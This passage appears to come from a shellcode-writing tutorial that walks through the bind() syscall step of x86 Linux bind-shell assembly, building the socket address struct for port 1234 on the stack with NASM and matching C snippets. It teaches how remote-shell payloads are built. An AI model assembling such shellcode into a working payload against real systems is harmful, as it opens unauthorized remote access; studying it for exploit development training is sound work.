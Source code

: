 We see from earlier that SYS_BIND is set to 2. We can set EBX to 2 by POP'ing the value off the stack since the top of stack already contains 2 from earlier.

```
pop ebx
```

Now we'll need to setup our bind() arguments correctly. If you recall from earlier our C code for the bind arguments were:

```c
bind(host_sock, (struct sockaddr *)&host_addr, sizeof(host_addr));
```

host_addr is a struct, which is basically just a group of variables. We setup that struct with the following:

```c
host_addr.sin_family = AF_INET;
host_addr.sin_port = htons(1234);
host_addr.sin_addr.s_addr = INADDR_ANY;
```

So we'll need to create this and utilize the stack to do so. 

INADDRY_ANY is defined in `/usr/src/linux-headers-4.4.0-31/include/uapi/linux/in.h` as 0.

htons(1234) can be converted into hex and then reversed for network byte order as 0xd204.

And we already know from earlier AF_NET is 2.

Since we need a 0 for our first argument to PUSH, we'll start by XOR'ing out EDX, which we haven't used yet. Then PUSH it to the stack.

```nasm
xor edx, edx
push edx
```

Next we'll push our port number to the stack. And since EBX already contains a 2, we can go ahead and push that.

```nasm
push word 0xd204
push bx
```

Now with our arguments setup correctly on the stack we can point ECX to the stack.

```nasm
mov ecx, esp
```

With our struct in place now we are ready to pass the bind arguments which will be the size of our struct, a pointer to our struct, and finally our socket we created from earlier(stored in EDI).

The size of our struct is 16 (0x10) so we'll push that to stack. We'll also push the value of ECX since it's currently pointing at the struct located on the stack. Finally we push our socket, and then point ECX to the top of the stack with all the arguments ready to be executed.

```nasm
push 0x10
push ecx
push edi
mov ecx, esp
int 0x80
```
After we execute the bind we go ahead and clear out EAX for use in the next step.
